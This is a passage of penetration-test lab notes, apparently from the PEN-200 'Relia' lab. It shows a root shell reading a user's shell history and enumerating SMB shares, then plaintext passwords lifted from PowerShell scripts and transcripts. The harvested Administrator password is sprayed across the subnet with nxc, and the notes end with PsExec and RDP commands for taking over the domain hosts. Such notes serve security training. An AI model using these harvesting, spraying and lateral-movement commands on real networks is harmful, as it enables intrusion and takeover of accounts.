-rw-r--r--  1 mountuser  mountuser   851 Oct 31  2022 .shrc
root@production:/home/mountuser # cat .history
#+1667314347
whoami
#+1667314351
ls
#+1667314352
ls -al
#+1667314356
cd
#+1667314359
ls -al
#+1667314378
vi .mailrc
#+1667314393
ls -al
#+1667314401
vi .profile
#+1667314422
sshpass -p "DRtajyCwcbWvH/9" ssh mountuser@172.16.10.21
#+1667314426
exit
#+1667314481
exit
root@production:/home/mountuser # 
```

## 172.16.x.21

* SMB Shares
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Relia/21SMB]
└─$ nxc smb 172.16.107.21 -u mountuser -p "DRtajyCwcbWvH/9" --shares
SMB         172.16.107.21   445    FILES            [*] Windows Server 2022 Build 20348 x64 (name:FILES) (domain:relia.com) (signing:False) (SMBv1:False) 
SMB         172.16.107.21   445    FILES            [+] relia.com\mountuser:DRtajyCwcbWvH/9 
SMB         172.16.107.21   445    FILES            [*] Enumerated shares
SMB         172.16.107.21   445    FILES            Share           Permissions     Remark
SMB         172.16.107.21   445    FILES            -----           -----------     ------
SMB         172.16.107.21   445    FILES            ADMIN$                          Remote Admin
SMB         172.16.107.21   445    FILES            apps            READ            
SMB         172.16.107.21   445    FILES            C$                              Default share
SMB         172.16.107.21   445    FILES            IPC$            READ            Remote IPC
SMB         172.16.107.21   445    FILES            monitoring      READ            
SMB         172.16.107.21   445    FILES            scripts         READ 
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Relia]
└─$ smbclient //172.16.107.21/apps -U michelle@relia.com       
Password for [michelle@RELIA.COM]:
Try "help" to get a list of possible commands.
smb: \> 
smb: \> ls
  .                                  DR        0  Thu Oct 20 00:14:07 2022
  ..                                DHS        0  Tue Jan 27 06:39:45 2026
  Common Files                        D        0  Thu Oct 20 00:13:50 2022
  desktop.ini                       AHS      174  Sat May  8 04:18:31 2021
  Internet Explorer                   D        0  Thu Oct 20 04:14:36 2022
  ModifiableWindowsApps               D        0  Sat May  8 04:20:24 2021
  Uninstall Information              DH        0  Thu Oct 20 00:12:24 2022
  VMware                              D        0  Thu Oct 20 00:14:07 2022
  Windows Defender                    D        0  Sat May  8 05:34:42 2021
  Windows Defender Advanced Threat Protection      D        0  Fri Aug  6 20:39:11 2021
  Windows Mail                        D        0  Fri Aug  6 20:39:11 2021
  Windows Media Player                D        0  Sat May  8 05:37:03 2021
  Windows NT                          D        0  Sat May  8 05:34:42 2021
  Windows Photo Viewer                D        0  Fri Aug  6 20:39:11 2021
  Windows Sidebar                   DHS        0  Sat May  8 04:34:49 2021
  WindowsApps                        DH        0  Thu Oct 20 04:13:04 2022
  WindowsPowerShell                   D        0  Sat May  8 04:34:49 2021
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Relia/21SMB]
└─$ smbclient //172.16.107.21/monitoring -U mountuser@relia.com
Password for [mountuser@RELIA.COM]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Oct 20 04:06:17 2022
  ..                                DHS        0  Tue Jan 27 06:39:45 2026
  PowerShell_transcript.FILES.35fvmr5q.20221019013308.txt      A     3160  Thu Oct 20 10:47:39 2022
  PowerShell_transcript.FILES.9_DjDa0f.20221019132304.txt      A     8860  Fri Oct 28 03:51:09 2022
  PowerShell_transcript.FILES.aH73VcF9.20221019134841.txt      A    17267  Thu Oct 20 10:47:45 2022
  PowerShell_transcript.FILES.EAy4aUdb.20221019132030.txt      A    31255  Thu Oct 20 10:47:47 2022
  PowerShell_transcript.FILES.KaQUnRKP.20221019133200.txt      A    40070  Thu Oct 20 10:47:50 2022
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Relia/21SMB]
└─$ smbclient //172.16.107.21/scripts -U mountuser@relia.com
Password for [mountuser@RELIA.COM]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Oct 20 04:06:17 2022
  ..                                DHS        0  Tue Jan 27 06:39:45 2026
  ForceADReplication.ps1              A      437  Thu Oct 20 10:47:57 2022
  Get-ADComputers-BitLockerInfo.ps1      A     6320  Thu Oct 20 10:48:00 2022
  UserExpire - Copy - Copy.ps1        A      481  Thu Oct 20 10:48:03 2022
  UserExpire - Copy.ps1               A      280  Thu Oct 20 10:48:06 2022
  UserExpire.ps1                      A      317  Thu Oct 20 10:48:11 2022
  Windows10Scrub.ps1                  A    34612  Thu Oct 20 10:48:14 2022
  workaround-36934-2021.ps1           A     2822  Thu Oct 20 10:48:18 2022

                5864959 blocks of size 4096. 2973361 blocks available
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Relia]
└─$ smbclient //172.16.98.21/monitoring --user mountuser@relia.com
Password for [mountuser@RELIA.COM]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Oct 20 04:06:17 2022
  ..                                DHS        0  Wed Jan 28 08:38:14 2026
  PowerShell_transcript.FILES.35fvmr5q.20221019013308.txt      A     3160  Thu Oct 20 10:47:39 2022
  PowerShell_transcript.FILES.9_DjDa0f.20221019132304.txt      A     8860  Fri Oct 28 03:51:09 2022
  PowerShell_transcript.FILES.aH73VcF9.20221019134841.txt      A    17267  Thu Oct 20 10:47:45 2022
  PowerShell_transcript.FILES.EAy4aUdb.20221019132030.txt      A    31255  Thu Oct 20 10:47:47 2022
  PowerShell_transcript.FILES.KaQUnRKP.20221019133200.txt      A    40070  Thu Oct 20 10:47:50 2022

```
* `UserExpire - Copy - Copy.ps1`

    ```UserExpire - Copy - Copy.ps1
    ##Sets expiration date and time for Active Directory User.

    $user = "RELIA\john.m"
    $SecureString = ConvertTo-SecureString "YouWillNeverTakeMyTractor!1922" -AsPlainText -Force
    $creddent = New-Object System.Management.Automation.PSCredential($user, $SecureString)
    Set-ADAccountExpiration -Identity $user -Credential $creddent -DateTime '17/01/2030 17:00:00'
    Get-ADUser -Identity $user -Properties AccountExpirationDate | Select-Object -Property SamAccountName,    AccountExpirationDate
    ```
    
* `PowerShell_transcript.FILES.9_DjDa0f.20221019132304.txt`
```
**********************
Windows PowerShell transcript start
Start time: 20221019132304
Username: FILES\Administrator
RunAs User: FILES\Administrator
Configuration Name:
Machine: FILES (Microsoft Windows NT 10.0.20348.0)
Host Application: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Process ID: 5936
PSVersion: 5.1.20348.859
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.20348.859
BuildVersion: 10.0.20348.859
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Transcript started, output file is C:\Users\Administrator\Documents\PowerShell_transcript.FILES.9_DjDa0f.20221019132304.txt
PS C:\Users\Administrator> $spass = ConvertTo-SecureString "vau!XCKjNQBv2$" -AsPlaintext -Force
PS C:\Users\Administrator> $cred = New-Object System.Management.Automation.PSCredential("RELIA\Administrator", $spass)
PS C:\Users\Administrator> Enter-PSSession -ComputerName INTRANET -Credential $cred
Enter-PSSession : Connecting to remote server INTRANET failed with the following error message : WinRM cannot complete
the operation. Verify that the specified computer name is valid, that the computer is accessible over the network, and
that a firewall exception for the WinRM service is enabled and allows access from this computer. By default, the WinRM
firewall exception for public profiles limits access to remote computers within the same local subnet. For more
information, see the about_Remote_Troubleshooting Help topic.
```
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Relia]
└─$ nxc smb 172.16.98.0/24 -u Administrator -p "vau\!XCKjNQBv2$" --local-auth
SMB         172.16.98.21    445    FILES            [*] Windows Server 2022 Build 20348 x64 (name:FILES) (domain:FILES) (signing:False) (SMBv1:False) 
SMB         172.16.98.5     445    MAIL             [*] Windows Server 2022 Build 20348 x64 (name:MAIL) (domain:MAIL) (signing:False) (SMBv1:False) 
SMB         172.16.98.7     445    INTRANET         [*] Windows Server 2022 Build 20348 x64 (name:INTRANET) (domain:INTRANET) (signing:False) (SMBv1:False) 
SMB         172.16.98.14    445    WK01             [*] Windows 11 Build 22000 x64 (name:WK01) (domain:WK01) (signing:False) (SMBv1:False) 
SMB         172.16.98.6     445    DC02             [*] Windows Server 2022 Build 20348 x64 (name:DC02) (domain:DC02) (signing:True) (SMBv1:False) 
SMB         172.16.98.30    445    WEBBY            [*] Windows Server 2022 Build 20348 x64 (name:WEBBY) (domain:WEBBY) (signing:False) (SMBv1:False) 
SMB         172.16.98.15    445    WK02             [*] Windows 11 Build 22000 x64 (name:WK02) (domain:WK02) (signing:False) (SMBv1:False) 
SMB         172.16.98.254   445    LOGIN            [*] Windows Server 2022 Build 20348 x64 (name:LOGIN) (domain:LOGIN) (signing:False) (SMBv1:False) 
SMB         172.16.98.21    445    FILES            [-] FILES\Administrator:vau!XCKjNQBv2$ STATUS_LOGON_FAILURE 
SMB         172.16.98.7     445    INTRANET         [-] INTRANET\Administrator:vau!XCKjNQBv2$ STATUS_LOGON_FAILURE 
SMB         172.16.98.5     445    MAIL             [-] MAIL\Administrator:vau!XCKjNQBv2$ STATUS_LOGON_FAILURE 
SMB         172.16.98.14    445    WK01             [-] WK01\Administrator:vau!XCKjNQBv2$ STATUS_LOGON_FAILURE 
SMB         172.16.98.6     445    DC02             [-] DC02\Administrator:vau!XCKjNQBv2$ STATUS_LOGON_FAILURE 
SMB         172.16.98.30    445    WEBBY            [-] WEBBY\Administrator:vau!XCKjNQBv2$ STATUS_LOGON_FAILURE 
SMB         172.16.98.15    445    WK02             [-] WK02\Administrator:vau!XCKjNQBv2$ STATUS_LOGON_FAILURE 
SMB         172.16.98.254   445    LOGIN            [-] LOGIN\Administrator:vau!XCKjNQBv2$ STATUS_LOGON_FAILURE 
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
                                                                                                                                                                                                                                                                                                                                                                        
┌──(kali㉿kali)-[~/Desktop/Pen200/Relia]
└─$ nxc smb 172.16.98.0/24 -u Administrator -p "vau\!XCKjNQBv2$"             
SMB         172.16.98.254   445    LOGIN            [*] Windows Server 2022 Build 20348 x64 (name:LOGIN) (domain:relia.com) (signing:False) (SMBv1:False) 
SMB         172.16.98.7     445    INTRANET         [*] Windows Server 2022 Build 20348 x64 (name:INTRANET) (domain:relia.com) (signing:False) (SMBv1:False) 
SMB         172.16.98.21    445    FILES            [*] Windows Server 2022 Build 20348 x64 (name:FILES) (domain:relia.com) (signing:False) (SMBv1:False) 
SMB         172.16.98.15    445    WK02             [*] Windows 11 Build 22000 x64 (name:WK02) (domain:relia.com) (signing:False) (SMBv1:False) 
SMB         172.16.98.6     445    DC02             [*] Windows Server 2022 Build 20348 x64 (name:DC02) (domain:relia.com) (signing:True) (SMBv1:False) 
SMB         172.16.98.5     445    MAIL             [*] Windows Server 2022 Build 20348 x64 (name:MAIL) (domain:relia.com) (signing:False) (SMBv1:False) 
SMB         172.16.98.14    445    WK01             [*] Windows 11 Build 22000 x64 (name:WK01) (domain:relia.com) (signing:False) (SMBv1:False) 
SMB         172.16.98.30    445    WEBBY            [*] Windows Server 2022 Build 20348 x64 (name:WEBBY) (domain:relia.com) (signing:False) (SMBv1:False) 
SMB         172.16.98.254   445    LOGIN            [+] relia.com\Administrator:vau!XCKjNQBv2$ (Pwn3d!)
SMB         172.16.98.7     445    INTRANET         [+] relia.com\Administrator:vau!XCKjNQBv2$ (Pwn3d!)
SMB         172.16.98.21    445    FILES            [+] relia.com\Administrator:vau!XCKjNQBv2$ (Pwn3d!)
SMB         172.16.98.15    445    WK02             [+] relia.com\Administrator:vau!XCKjNQBv2$ (Pwn3d!)
SMB         172.16.98.6     445    DC02             [+] relia.com\Administrator:vau!XCKjNQBv2$ (Pwn3d!)
SMB         172.16.98.5     445    MAIL             [+] relia.com\Administrator:vau!XCKjNQBv2$ (Pwn3d!)
SMB         172.16.98.14    445    WK01             [+] relia.com\Administrator:vau!XCKjNQBv2$ (Pwn3d!)
SMB         172.16.98.30    445    WEBBY            [+] relia.com\Administrator:vau!XCKjNQBv2$ (Pwn3d!)
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
                                                                                                                                                                                                                                                                                                                                                                        
┌──(kali㉿kali)-[~/Desktop/Pen200/Relia]
└─$ nxc rdp 172.16.98.0/24 -u Administrator -p "vau\!XCKjNQBv2$"
RDP         172.16.98.6     3389   DC02             [*] Windows 10 or Windows Server 2016 Build 20348 (name:DC02) (domain:relia.com) (nla:True)
RDP         172.16.98.14    3389   WK01             [*] Windows 10 or Windows Server 2016 Build 22000 (name:WK01) (domain:relia.com) (nla:True)
RDP         172.16.98.254   3389   LOGIN            [*] Windows 10 or Windows Server 2016 Build 20348 (name:LOGIN) (domain:relia.com) (nla:True)
RDP         172.16.98.15    3389   WK02             [*] Windows 10 or Windows Server 2016 Build 22000 (name:WK02) (domain:relia.com) (nla:True)
RDP         172.16.98.30    3389   WEBBY            [*] Windows 10 or Windows Server 2016 Build 20348 (name:WEBBY) (domain:relia.com) (nla:True)
RDP         172.16.98.6     3389   DC02             [+] relia.com\Administrator:vau!XCKjNQBv2$ (Pwn3d!)
RDP         172.16.98.7     3389   INTRANET         [*] Windows 10 or Windows Server 2016 Build 20348 (name:INTRANET) (domain:relia.com) (nla:False)
RDP         172.16.98.14    3389   WK01             [+] relia.com\Administrator:vau!XCKjNQBv2$ (Pwn3d!)
RDP         172.16.98.254   3389   LOGIN            [+] relia.com\Administrator:vau!XCKjNQBv2$ (Pwn3d!)
RDP         172.16.98.15    3389   WK02             [+] relia.com\Administrator:vau!XCKjNQBv2$ (Pwn3d!)
RDP         172.16.98.30    3389   WEBBY            [+] relia.com\Administrator:vau!XCKjNQBv2$ (Pwn3d!)
RDP         172.16.98.7     3389   INTRANET         [+] relia.com\Administrator:vau!XCKjNQBv2$ (Pwn3d!)
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

## Remaining Mechine
* 172.16.x.6
`xfreerdp3 /u:Administrator /p:"vau\!XCKjNQBv2$" /v:172.16.x.6 /dynamic-resolution`

* 172.16.x.21
`.\PsExec64.exe -i \\FILES -u relia\Administrator -p vau!XCKjNQBv2$ cmd`

  

* 172.16.x.30
`.\PsExec64.exe -i \\WEBBY -u relia\Administrator -p vau!XCKjNQBv2$ powershell`

* 172.16.x.14
`.\PsExec64.exe -i \\WK01 -u relia\Administrator -p vau!XCKjNQBv2$ powershell`

* 192.168.x.189
`.\PsExec64.exe -i \\MAIL -u relia\Administrator -p vau!XCKjNQBv2$ powershell`

* 